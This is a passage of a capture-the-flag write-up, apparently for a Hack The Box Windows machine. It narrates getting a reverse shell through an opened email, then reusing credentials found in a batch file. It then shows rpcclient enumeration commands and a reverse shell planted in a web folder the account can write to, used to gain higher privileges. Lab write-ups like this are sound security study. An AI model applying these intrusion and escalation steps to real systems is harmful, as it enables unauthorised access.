

We patiently wait for her to open the email, 



and we obtain a reverse shell.




##  2<sup>nd</sup> Privilege Esclation


Upon connection, we notice a batch file containing Dr. Brown's credentials. Although not yet attempted, I assume we can connect using Evil-WinRM and obtain a more stable shell.



back to nmap ;\
We utilize these credentials to enumerate what we can. With nothing significant found in SMB, we pivot towards rpcclient. \
After several commands yield no fruitful results

```bash
rpcclient 10.10.11.241 -U "drbrown"
```

- `tshareenum` --> acces denied \
- `enum` --> command not found
- `enumdomains` --> none intersting
- `enumdomgroups` --> retrieve rid of admin
- `querygroup` <RID ADMIN> --> some information


Next, I discovered the necessary command from this remarkable website.
https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb/rpcclient-enumeration?source=post_page-----791ad6dd24ed--------------------------------


, we then utilize the `querydispinfo` command and notice that Administrator Information is shared with the Guest..




Knowing that this machine hosts a web application, we exploit the C drive and gain access to the directory of the web application. \
Upon using `icacls`, it reveals the permissions of the accounts on this folder.





We know that this machine is running a web application so we exploit C drive and we have the directory of web application. Upon using icacls, it tells us the permission of the accounts on this folder.




To locate my reverse shell I used this forum : https://stackoverflow.com/questions/16772198/how-do-i-test-a-website-using-xampp

We set up a reverse shell, hoping to obtain a connection with elevated privileges, given that we have access.





Box forums provide some guidance, certain hints or questions can be too revealing. Therefore, I'd like to express my gratitude to this particular source that crafted a writeup containing only hints. It proved incredibly helpful during my privilege escalation phase.


Thank a lot : https://svadhyayan.com/htb-hospital-writeup/